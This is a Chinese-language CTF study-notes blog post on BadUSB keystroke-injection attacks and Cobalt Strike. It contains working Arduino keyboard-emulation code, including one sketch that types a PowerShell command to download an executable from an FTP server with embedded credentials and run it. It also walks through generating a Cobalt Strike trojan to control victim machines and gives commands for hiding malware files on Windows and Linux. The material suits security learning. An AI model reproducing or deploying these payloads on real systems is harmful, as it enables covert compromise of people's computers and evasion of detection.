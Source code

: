 ```yaml
---
title: CTF学习笔记（大学篇）02 —— BadUSB & CobaltStrike
date: 2022-04-16 08:22:03
tags: [CTF, HID, CobaltStrike, Powershell]
categories: CTF
---
```


### HID设备

人类接口设备，就是直接与人类进行交互的设备（鼠标、键盘之类的）

### HID攻击

插入一定的设备，设备有一定的标识符（例如Keyboard、Mouse），插入后就可以运行烧录在BadUSB上的指令来输入恶意代码，把木马植入计算机之中。（伪造用户击键行为等）

### USB HID攻击 VS 摆渡攻击

前者运用的是伪造的HID设备执行恶意代码，摆渡攻击是在U盘等设备放置木马程序，隐藏在存储介质之中。

### USB HID攻击特点

- 隐蔽性强
- 攻击范围广
- 权限高

攻击范围是只要能够支持USB HID接口协议的设备均可用。

### 相关编程语句

#### 默认内容

```C++
void setup() {

}

void loop() {

}
```

- `void setup()`函数内的代码只运行一次
- `void loop()`函数内的代码会一直循环运行

#### 运行cmd并打开记事本，输入相关内容

```c++
#include<Keyboard.h>
void setup() {
  // put your setup code here, to run once:
Keyboard.begin();
delay(1000);

Keyboard.press(KEY_LEFT_GUI);//win键
delay(500);
Keyboard.press('r');//r键
delay(500);
Keyboard.release(KEY_LEFT_GUI);//win键释放
Keyboard.release('r');//r键释放

Keyboard.press(KEY_CAPS_LOCK);//若目标机开启大小写，关掉即可
Keyboard.release(KEY_CAPS_LOCK);//若目标机没有开启，也不影响
delay(500);
Keyboard.println("cmd");
Keyboard.press(KEY_RETURN);
Keyboard.release(KEY_RETURN);//目标机开启中文或开启大小写键
delay(500);

//弹出记事本
Keyboard.println("notepad.exe");
delay(500);
delay(500);//可防止丢帧
Keyboard.println("you are hacked!!!");
Keyboard.println("you are hacked!!!");
Keyboard.println("you are hacked!!!");
Keyboard.press(KEY_CAPS_LOCK);//若目标机开启大小写，关掉即可
Keyboard.release(KEY_CAPS_LOCK);
Keyboard.end();//结束键盘通讯
}

void loop() {
  // put your main code here, to run repeatedly:
}
```

- `Keyboard.press`就表示按下按键，用`Keyboard.release`松开
- `KEY_LEFT_GUI`表示左边的Win按键
- `Keyboard.begin()`开启键盘通讯，`Keyboard.end()`来表示结束
- 因为插入设备的时候目标主机可能处于中文输入法，所以用`Keyboard.press(KEY_CAPS_LOCK)`打开大小写锁定，然后来输入命令，这样输入的就是英文字符而不受到中文输入法的限制了，输入完了以后记得用`Keyboard.release(KEY_CAPS_LOCK)`松开
- `Keyboard.begin()`下面的`delay(1000)`：一般来说，设备插入后计算机需要启动驱动，在这里加入延迟就是为了给计算机启动驱动的时间（甚至是安装驱动，diss一下win7以下的那堆），当然一般是3秒5秒，1秒还是太短了
- 按键的定义如下（键盘按键+编码）

```c++
///Alt和Ctrl和Shift
#define KEY_LEFT_CTRL   0x80
#define KEY_LEFT_SHIFT    0x81
#define KEY_LEFT_ALT    0x82
#define KEY_LEFT_GUI    0x83
#define KEY_RIGHT_CTRL    0x84
#define KEY_RIGHT_SHIFT   0x85
#define KEY_RIGHT_ALT   0x86
#define KEY_RIGHT_GUI   0x87
///方向键系列
#define KEY_UP_ARROW    0xDA
#define KEY_DOWN_ARROW    0xD9
#define KEY_LEFT_ARROW    0xD8
#define KEY_RIGHT_ARROW   0xD7
//特殊键位，其中RETURN就是回车
#define KEY_BACKSPACE   0xB2
#define KEY_TAB       0xB3
#define KEY_RETURN      0xB0
#define KEY_ESC       0xB1
///特殊键位，我比较常用的是DELETE
#define KEY_INSERT      0xD1
#define KEY_DELETE      0xD4
#define KEY_PAGE_UP     0xD3
#define KEY_PAGE_DOWN   0xD6
#define KEY_HOME      0xD2
#define KEY_END       0xD5
#define KEY_CAPS_LOCK   0xC1
///F区的这些那些
#define KEY_F1        0xC2
#define KEY_F2        0xC3
#define KEY_F3        0xC4
#define KEY_F4        0xC5
#define KEY_F5        0xC6
#define KEY_F6        0xC7
#define KEY_F7        0xC8
#define KEY_F8        0xC9
#define KEY_F9        0xCA
#define KEY_F10       0xCB
#define KEY_F11       0xCC
#define KEY_F12       0xCD
#define KEY_F13       0xF0
#define KEY_F14       0xF1
#define KEY_F15       0xF2
#define KEY_F16       0xF3
#define KEY_F17       0xF4
#define KEY_F18       0xF5
#define KEY_F19       0xF6
#define KEY_F20       0xF7
#define KEY_F21       0xF8
#define KEY_F22       0xF9
#define KEY_F23       0xFA
#define KEY_F24       0xFB
```

#### 利用FTP服务器存储病毒文件，利用BadUSB执行下载命令后运行

```C++
#include "Keyboard.h"

void setup() 
{
  Keyboard.begin();
  delay(2000);
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI); //win键 释放
  Keyboard.release('r'); //r键 释放
  delay(500);
  Keyboard.println("powershell $p=new-object system.net.webclient;$p.downloadfile('FTP://admin:123456@169.254.202.247/calc.exe','F:\\calc.exe');START F:\\calc.exe");
  Keyboard.end();//结束键盘通讯 
}

void loop() 
{
}

```

- FTP协议写法：`ftp://<username>:<password>@<address>:<port>`，可以通过这种方式将用户名和命令写入而无需弹出验证窗口

### CobaltStrike用法

首先需要打开Teamserver

![](https://assets.bili33.top/img/CTF-in-College-2/%E7%AE%A1%E7%90%86%E5%91%98__%E8%8E%B7%E5%8F%96%E7%AE%A1%E7%90%86%E5%91%98%E6%9D%83%E9%99%90%20-%2020220416-164025.png)

然后再打开CS，连接Teamserver

![](https://assets.bili33.top/img/CTF-in-College-2/Connect%20-%2020220416-164031.png)

接着就会弹出主界面

![](https://assets.bili33.top/img/CTF-in-College-2/Cobalt_Strike%20-%2020220416-164039.png)

然后我们生成一个木马程序，这个程序运行后就会在主界面显示肉鸡，可以进行远程操作等操作

![](https://assets.bili33.top/img/CTF-in-College-2/Windows_Executable%20-%2020220416-164049.png)

![](https://assets.bili33.top/img/CTF-in-College-2/Choose_a_payload_to_stage%20-%2020220416-164045.png)

### 隐藏木马病毒

一般来说，木马下载到计算机内后，如果不隐藏很快就会被发现（这不是当然的嘛，一个不明觉厉的exe在那里谁都会感觉奇怪吧）

所以在Windows下，我们可以将文件进行隐藏，使用`attrib`命令就可以做到这一点，例如

```powershell
attrib +s +h '.\Virus.exe'
```

隐藏后可以用命令行打开（直接输入`.\Virus.exe`就行了），但是在文件资源管理器里面看不到

在Linux下，可以在文件的最前面加一个点（`.`），会被Linux认为是隐藏文件，就在文件管理器中看不到啦
